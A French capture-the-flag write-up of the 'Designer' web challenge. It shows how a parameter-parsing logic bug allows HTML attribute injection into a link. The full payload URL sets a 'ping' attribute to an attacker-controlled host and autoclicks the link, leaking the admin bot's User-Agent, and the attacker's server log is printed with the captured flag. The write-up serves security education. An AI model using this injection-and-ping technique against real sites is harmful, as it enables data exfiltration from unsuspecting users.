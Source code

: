 # Designer

**Auteur :** [Mika](https://x.com/bWlrYQ)
**Énoncé :**  
![Designer](https://media1.tenor.com/m/e6_z-q3LUKoAAAAd/web-development-web.gif)  
Un nouveau SaaS ennuyeux a publié son application inutile, qui devrait vous aider à générer des boutons/liens HTML sans avoir à écrire de code... Selon nous, il n'y a pas d'utilité spécifique à ce truc. Néanmoins, ils semblent récompenser les personnes qui peuvent trouver des vulnérabilités sur leurs produits avec des flags.  
**Difficulé :** Facile  
**Code Source :** Oui

> Résumé : Ce challenge consistait en l'exploitation d'un logic bug résultant en une injection HTML permettant d'injecter un attribut malicieux dans un tag HTML, permettant en la fuite de l'User-Agent de l'administrateur qui contenait le flag.

## Découverte du challenge

![page d'accueil](img/accueil.png)

Le challenge est une UI permettant de générer des boutons avec un lien cliquable sans *trop* faire d'HTML/CSS. Le code source est mis à disposition. En regardant les sources, on constate que le flag du challenge est contenu dans l'User-Agent du bot qui joue ici le rôle d'admin. Il peut être atteint au travers d'un système de reporting de vulnérabilites. 

`designer/bot/bot.js`
```js
        if (process.env.FLAG) {
            await page.setUserAgent(process.env.FLAG);
        }
```

`designer/app/app.py`
```py
@app.route('/report', methods=['POST', 'GET'])
def report():
    if request.method == 'POST':
        if 'url' in request.form:
            url = request.form['url']
            if url == '':
                return render_template('report.html', error='Merci de renseigner une URL à signaler.')
            if not match(environ.get('URL_REGEX', r'https?:\/\/localhost:5000/'), url):
                return render_template('report.html', error=f'Vous ne pouvez uniquement entrer des URL à signaler commençant par : {environ.get("URL_REGEX", r"https?://localhost:5000/")}')
            else:
                try:
                    post(f'{environ.get('ADMIN_ENDPOINT', 'http://bot:8000/report')}', json={'url': url})
                except Exception as e:
                    return render_template('report.html', error=f"Impossible de signaler aux administrateurs. {e}")
                return render_template('report.html', success="Signalement effecttué, merci d'attendre que les administrateurs consultent votre signalement.")
        else:
            return render_template('report.html', error='Merci de renseigner une URL à signaler.')
    else:
        return render_template('report.html')
```

Notre objectif est donc de faire fuiter l'User-Agent de l'administrateur en réussissant à le rediriger sur un endpoint que l'on contrôle, cependant il n'est à priori pas possible de lui envoyer un lien autre que la plateforme de génération de boutons.

## Logic Bug

La fonctionnalité de génération du bouton permet d'ajouter des attributs personnalisés pour le bouton mais pas pour le lien. Il est possible de contourner cela dû à un bug de logique dans la fonction de génération du bouton :

`designer/app/app.py`
```py
    button_attributes = {
        "autofocus": 0,
        "disabled": 0,
        "commandfor": 0,
        "command": 0,
        "type": 0,
        "name": 0,
        "form": 0,
        "style": 0,
    }
    link_attributes = {
        "href": "http://localhost.local/",
        "rel": 0,
        "target": 0,
        "hreflang": 0,
    }

    if len(request.args) > 0:
        try:
            if 'autoclick' in request.args:
                autoclick = True

            for key, value in request.args.items():
                if key == 'autoclick':
                    continue
                elif key.startswith('CUSTOMATTR-'):
                    button_attributes[key.split('-')[1]] = value
                elif key in button_attributes:
                    if value=='none' and key in button_attributes:
                        button_attributes.pop(key)
                    else:
                        button_attributes[key] = value
                else:
                    if value=='none' and key in link_attributes:
                        link_attributes.pop(key)
                    else:
                        link_attributes[key] = value
        except Exception as e:
            return render_template('designer.html', error=e)
```

Une boucle for parsant toute la configuration du bouton passée au travers de paramètres GET commence par ignorer le paramètre `autoclick` pour plus tard. Ensuite si le paramètre commence par `CUSTOMATTR-` on considère que celui-ci doit aller dans les attributs du bouton. 

Si le paramètre est contenu dans les attributs du bouton, alors on remplace leur valeur dans le dictionnaire `button_attributes`. Sinon, les paramètres restants sont envoyés dans les attributs du lien car 'automatiquement considérés' comme étant liés à celui-ci. Il y a ici une erreur de logique qui fait que si un paramètre n'est prévu pour aucun des deux tags HTML (`button` et `a`) alors celui-ci sera envoyé dans les attributs du lien, permettant ainsi l'injection d'argument dans la balise `a` alors que ce n'est normalement pas prévu.

## Paramètre 'Autoclick'

Un paramètre 'autoclick' est présent, quand celui-ci est coché lors de la génération du lien alors une fois le bouton généré, celui-ci sera automatiquement cliqué. Cela peut être utile pour forcer l'administrateur à cliquer sur un bouton généré. 

## Attribut ping et injection HTML

La balise `<a>` possède un attribut intéressant `ping` ([voir la documentation](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/a#ping)) qui permet de forcer le navigateur à faire une requête **POST** lorsque le lien est visité. Grâce au logic bug trouvé précedemment il est possible d'intégrer un attribut `ping` au lien généré forçant le navigateur de l'administrateur à visiter un endpoint contrôlé par l'attaquant.

## Flag

En chaînant les éléments précédemment trouvés, il est possible de construire la charge de génération suivante (en retirant le `CUSTOMATTR-` du lien): 

`http://designer:8000/designer?command=none&type=button&name=&form=&style=&ping=http%3A%2F%2Fbwlryq.net%2Fping&hreflang=none&rel=none&target=_self&autoclick=on`

En passant cette charge à l'administrateur, celui-ci cliquera automatiquement sur le lien et l'attribut ping permettra de récupérer son User-Agent qui contient le flag.

![report](img/report.png)

```
╭─root@rp /var/log/caddy
╰─➤  cat bwlryq.net.log | grep "ping"
{"level":"info","ts":1739738174.586391,"logger":"http.log.access.log2","msg":"handled request","request":{"remote_ip":"172.16.50.3","remote_port":"62158","client_ip":"172.16.50.3","proto":"HTTP/2.0","method":"GET","host":"blog.bwlryq.net","uri":"/ping","headers":{"Accept-Encoding":["gzip, deflate, br, zstd"],"Cache-Control":["max-age=0"],"Sec-Fetch-Dest":["empty"],"User-Agent":["BZHCTF{P1Ng_P0nG_1s_4w3s0m3_D0_Y0u_4Gr33?}"],"Ping-To":["http://localhost.local/"],"Sec-Fetch-Site":["cross-site"],"Priority":["u=4, i"],"Sec-Fetch-Mode":["no-cors"],"Ping-From":["http://designer:8000/designer?command=none&type=button&name=&form=&style=&ping=http%3A%2F%2Fbwlryq.net%2Fping&hreflang=none&rel=none&target=_self&autoclick=on"],"Accept":["*/*"],"Accept-Language":["en-US,en;q=0.9"]},"tls":{"resumed":false,"version":772,"cipher_suite":4867,"proto":"h2","server_name":"blog.bwlryq.net"}},"bytes_read":0,"user_id":"","duration":0.002355725,"size":0,"status":404,"resp_headers":{"Server":["Caddy"],"Alt-Svc":["h3=\":443\"; ma=2592000"]}}
```
Nous obtenons le flag : **BZHCTF{P1Ng_P0nG_1s_4w3s0m3_D0_Y0u_4Gr33?}**